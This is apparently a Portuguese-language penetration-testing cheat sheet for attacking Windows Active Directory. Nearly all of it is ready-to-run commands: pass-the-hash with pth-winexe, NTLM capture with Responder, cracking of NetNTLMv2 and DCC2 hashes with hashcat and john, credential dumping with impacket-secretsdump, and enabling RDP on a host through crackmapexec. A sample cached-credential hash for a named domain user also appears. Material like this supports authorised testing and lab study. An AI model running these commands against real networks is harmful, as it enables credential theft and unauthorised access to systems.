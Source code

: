 ```
pth-winexe -U bernardo%HASH //HOST cmd.exe
```

```
responder -I <interface> -Pbv
responder -I tun0 -Pbv
```

ntlmv2 (hashcat 5600 e john netntlmv2)
```
hashcat -m 5600 HASH.txt WORDLIST 
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**dcc2 (hashcat 2100 e john mscash2)**
```
hashcat -m 2100 HASH.txt WORDLIST
john --format=mscash2 hash_secretdump --wordlist=~/wordlist/rockyou.txt

hash formatada:
$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d
```
note que a hash precisa estar corretamente formatada


obtendo hashes a partir de um usuário validado
```
impacket-secretsdump DOMAIN/USER:PASS@HOST
```

formatando hash do impacket-secretdump
```
hash capturada:
ORIONSCORP2.LOCAL/thenrique:$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d:

hash formatada:
$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d
```

**Habilitando RDP com credenciais validadas:**
```
crackmapexec smb HOST -u USER -p PASS -M rdp
```

## dir
pesquisa recursivamente pelo diretorio
```
dir <directory_name> /ad /b /s
```
- `/ad` → procura apenas diretórios (folders).
- `/b` → mostra o caminho completo no formato simples (bare format).
- `/s` → busca recursivamente em todas as subpastas.


## enumeração de usuários do dóminio (AD)
```
rpcclient -W WORKGROUP -U USER HOST
```
